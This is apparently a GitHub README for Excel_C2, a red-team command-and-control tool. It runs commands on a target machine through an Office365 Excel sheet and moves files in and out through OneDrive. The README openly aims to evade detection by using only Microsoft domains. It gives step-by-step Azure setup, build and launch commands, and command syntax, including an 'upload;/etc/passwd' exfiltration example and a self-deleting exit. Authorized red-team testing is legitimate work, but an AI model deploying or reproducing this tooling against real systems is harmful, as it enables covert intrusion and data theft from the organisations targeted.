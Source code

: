 # Excel_C2

Excel_C2 (Excel Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using an Office365 Excel sheet and exfiltrates data OneDrive.

## Why

This program has been developed in order to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Microsoft's domains to make detection more difficult.

## Requirements

- Azure AD login with permissions to:
  - Register Application
    - Apply Delegated and Application permissions for Files.ReadWrite.All
  - Grant admin consent confirmation
- O365 Subscription

## Set up

1. **Register an Azure Portal App**
    1. Log into the [Azure Active Directory Admin center](https://aad.portal.azure.com/) with a Global Administrator Account.
    2. Expand **Azure Active Directory** on the left navigation panel
    3. Expand **Applications**
    4. Select **App registrations** \
      ![App registrations](img/aad-portal-app-registrations.png)
    5. Click the  **New Registration** button \
      ![New registration](img/new-registration.png)
    6. Enter a name for your new app, select "Accounts in this organizational directory only (MSFT only - Single Tenant)", and click the **Register** button \
      ![New application](img/new-application.png)
    7. On the application page, note the **Application (client) ID** and **Directory (tenant) ID** values.  They will be used for `clientId` and `tenantId` respectively. \
      ![App IDs](img/app-ids.png)
    8. Click **API permissions** \
      ![API permissions](img/api-perms.png)
    9. Click the **Add a permission** button \
      ![Add permission](img/add-perm-button.png)
    10. Click the **Microsoft Graph** button \
      ![Add MS Graph](img/add-graph-perm.png)
    11. Click the **Application permissions** button \
      ![Application Permissions](img/app-perm.png)
    12. Type "files" to filter the permissions.  Then expand the **Files** option and check the box next to "Files.ReadWriteAll" and click the **Add permissions** button \
      ![File Permissions](img/files-perm.png)
    13. Add the same "Files.ReadWrite.All" under the **Delegated permissions** area
    14. Back on the "API permissions" page, click the **Grant admin consent for MSFT** button and **Yes** in the banner \
      ![Grant Consent](img/grant-consent.png)
    15. In the naviation menu, select **Certificates & secrets** and click the **New client secret** button \
      ![New Secret](img/new-secret.png)
    16. Enter a description and click the **Add** button \
      ![Add Secret](img/add-secret.png)
    17. Copy the "Value" field of your newly created secret.  This will not be displayed again once you leave this page.  This will be used for the `clientSecret` field \
      ![Copy Secret](img/copy-secret.png)

1. **Create the Excel Spreadsheet**

    1. Login with the same account to [OneDrive](https://onedrive.live.com)
    2. Click on the arrow next to the **New** button and select **Excel workbook** \
      ![New Workbook](img/new-excel.png)
    3. You need the ID for the onedrive as well as the ID for the new sheet you've created.  Lucikly Microsft makes it as difficult as possible to find that information.  I was able to get it using Postman.  Follow the guide at [https://learn.microsoft.com/en-us/graph/use-postman](https://learn.microsoft.com/en-us/graph/use-postman) to setup Postman
        > NOTE: you've already completed Step3 by following this README
    4. Once Postman is configured and you're able to authenticate successfully, find the **Get my files** API call and run that \
      ![Get My Files](img/get-my-files.png)
    5. In the response Body, search for the name of your newly created spreadsheet.  In that same JSON block, there will also be an "id" key.  Copy that value for `sheetId`
    6. Also in that same JSON block, there is a "parentReference" key.  Inside that value, there is a "driveId" key.  Copy that value for `driveId` \
      ![Drive IDs](img/drive-ids.png)

1. **Build executable**

    ```bash
    git clone https://github.com/grantok/Excel-C2
    cd Excel-C2
    go build excel-c2.go
    ```

1. **Start the C2**

    ```none
    excel-c2 --tenant <tenantId> --client <clientId> --secret <clientSecret> --drive <driveId> --sheet <sheetId> --verbos <true|false>
    ```

   > Note: you can also hardcode the parameters in the code, so you will upload only the executable on the target machine (look at comments in root.go)

### Features

- Command execution using Office365 Excel Sheet as a console
- Download files on the target using Microsfot OneDrive
- Upload files (data exfiltration) using Microsft OneDrive
- Exit

#### Command execution

The program will perform a request to the spreedsheet every 30 sec (by default) to check for new commands.
Enter the command in column **A** and the output will be added to column **B**

#### Upload File

The "upload" command will upload a file from the target machine to OneDrive.  The syntax is:

 ```none
upload;<remote path>
 ```

Example:

 ```none
upload;/etc/passwd
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Download File

The "download" command will download a file from OneDrive to the target machine.  The syntax is:

 ```none
download;<OneDrive file name>;<remote path>
 ```

Example:

 ```none
download;down.txt;/home/user/downloaded.txt
 ```

> NOTE: DO **NOT** add spaces around semi-colons.

#### Exit

By sending the command *exit*, the program will delete itself from the target and kill its process

> NOTE: From *os* documentation:
> *If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case the symlink is deleted.

### WorkFlow

Coming soon

### Demo

Coming soon

### Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

### Inspired from

[https://github.com/looCiprian/GC2-sheet](https://github.com/looCiprian/GC2-sheet)

### Support the project

Pull request
